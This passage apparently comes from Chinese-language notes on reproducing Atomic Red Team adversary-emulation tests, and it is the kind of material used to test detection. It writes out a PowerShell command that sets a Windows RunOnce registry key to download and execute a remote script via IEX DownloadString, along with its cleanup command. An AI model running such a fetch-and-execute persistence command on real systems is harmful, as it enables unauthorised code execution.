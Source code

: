 迎还没问题,没有复现
###### 测试3 PowerShell Registry RunOnce
powershell中运行
```
$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
```
清除
```
Remove-ItemProperty -Path $RunOnceKey -Name "NextRun" -Force
```
迎还没问题,没有复现
### T1137 - Office Application Startup